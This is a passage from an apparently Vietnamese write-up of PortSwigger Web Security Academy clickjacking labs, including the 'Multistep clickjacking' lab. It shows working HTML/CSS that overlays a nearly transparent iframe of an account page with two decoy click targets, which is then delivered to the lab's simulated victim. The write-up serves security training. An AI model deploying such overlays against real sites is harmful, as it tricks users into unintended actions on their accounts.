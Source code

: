 Trong quá trình xây dựng khung HTML cho chính xác chúng ta có thể dùng View Exploit để kiểm tra xem đã đúng vị trí hay chưa.
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_xss_checkbtn.jpg?raw=true)

Sau khi khung HTML đã vào đúng vị trí và có thể exploit thì chúng ta Deliver to vivtim để solve bài lab.

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_xss_solve.jpg?raw=true)


### Lab: Multistep clickjacking

Bài lab mô tả rằng để chống lại Clickjacking web site đã thêm 1 xác nhận thứ 2. Vì vậy để có thể khai thác được chúng ta phải tạo ra 2 btn để đè lên 2 nút mới được tạo ra. Dựa vào lý thuyết đó

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_multi.jpg?raw=true)

Sau đây là cách thêm btn check để ngăn chặn Clickjacking :D 

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_multi_checkdell.jpg?raw=true)

Tương tự như những bài trên, nhưng lần này chúng ta phải xây dựng 2 btn và check 2 btn sao cho giống với web site gốc :D

```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:480px;
       left:50px;
       z-index: 1;
   }
   .secondClick {
       top:285px;
       left:220px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://accc1f5d1e509cb48060b032006d00e5.web-security-academy.net/my-account"></iframe>
```

Sau khi check thành công thì Delever để solve bài lab

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_multi_exploitserver.jpg?raw=true)
